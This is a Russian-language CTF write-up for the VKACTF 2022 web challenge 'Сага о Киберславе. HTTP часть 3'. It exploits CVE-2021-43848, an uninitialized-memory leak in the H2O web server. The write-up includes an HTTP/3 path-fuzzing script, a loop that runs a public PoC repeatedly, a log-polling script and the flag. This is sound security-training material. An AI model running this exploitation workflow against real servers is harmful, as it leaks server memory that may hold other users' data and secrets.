 ## Сага о Киберславе. HTTP часть 3

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2022 | Сага о Киберславе. HTTP часть 3 | Web | Hard |

### Описание

> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> После того, как взломали сайт Киберслава, они разместили своё [приложение](https://cyberslav-http-third-part.vkactf.ru/), используя новые [стандарты](https://www.cloudflare.com/learning/performance/what-is-http3/). Администратор сайта проверяет его каждую секунду!

### Уязвимость

> [Leaking uninitialized memory from H2O Web Server](https://medium.com/@emil.lerner/leaking-uninitialized-memory-from-fastly-83327bcbee1f)

### Решение
> К сожалению, у меня не вышло настроить приложение так, чтобы с ним можно было взаимодействовать, используя браузер пользователя. Однако, cURl с параметром --http3 отлично справляется с этой задачей.

Главная страница сайта не изменилась. Однако, так как на этот раз у нас нет исходных кодов, то нам необходимо провести разведку. Стандартные инструменты поиска скрытых директорий не подойдут, так как приложение общается по протоколу `HTTP/3`

### Разведка

Используем следующий bash скрипт для поиска скрытых файлов сервера
```bash
#!/bin/bash

URL=https://cyberslav-http-third-part.vkactf.ru
dict=/tmp/quickhits.txt

while read -r line; do
        timeout 1 curl -I -s --http3 $URL$line | grep 'HTTP/3 200' 1>/dev/null && echo "[+] Found path $line"
done <$dict
```

> Возможно есть другие, более быстрые способы поиска скрытых файлов, но я их не нашёл

В зависимости от словаря будут найдены следующие файлы

![](images/fuzz.jpg)

Исходя из анализа `Dockerfile`'а, приложение написано на `python` и расположено в директории `app` пользователя `h2o`

Название файла сереверного приложения не показано, но его не трудно узнать - `main.py` (/home/h2o/app/main.py)

Серверное приложение позволяет войти в аккаунт по имени пользователя (за исключением пользователей `admin` и `default`). После аутентификации за пользователем закрепляется logger, который будет логировать все post-данные, отправляемые пользователем на `/log`

Путь `/admin` возвращает флаг и доступен только для админа.

Из заголовка ответа веб-сервера можно заметить, что h2o сервер находится не на последней версии

![](images/header.jpg)

Данная версия [уязвима](https://medium.com/@emil.lerner/leaking-uninitialized-memory-from-fastly-83327bcbee1f) для атаки `Leaking uninitialized memory from H2O Web Server`

### Эксплуатация

Данной уязвимости присвоен идентификатор `CVE-2021–43848`. [PoC](https://github.com/neex/hui2ochko) доступен в открытом доступе

Эксплойт заставляет сервер отправить часть своей оперативной памяти в POST запросе на указанный путь

В эксплойте необходимо указать путь `/api/log/` и куки пользователя, чтобы ликнутая оперативная память сервера записывалась в конкретный лог файл пользователя (md5sum от имени пользователя)

![](images/exploit.jpg)

Логи эксплойта будут записывать в файл по пути `/app/logs/(md5sum от username).log` и ротироваться от .1 до .9

На путь `/admin` ежесекундно выполняются запросы администратора (из исходных кодов). Ответ приложения сохраняется в оперативной памяти. Таким образом через определённое время в логах эксплойта должен сохранится ответ приложения

Эксплойт необходимо запускать несколько раз, пока в логах не появится флаг

```bash
while :; do ./hui2ochko <DNS> <IP>; done
```

Для автоматизации поиска флага можно использовать следующий bash скрипт

```bash
while :;
do
    check_flag=0
    for i in {1..9}
    do
        docker run -it --rm ymuski/curl-http3 curl --http3 "$URL/app/logs/$(echo -n $USERNAME | md5sum | cut -c 1-32).log.$i" | tr -d 'A' | grep vka && exit
    done
    sleep 60
done
```

**Флаг:**

> vka{l34k1n6_un1n1714l1z3d_m3m0ry_fr0m_h20_w3b_53rv3r}

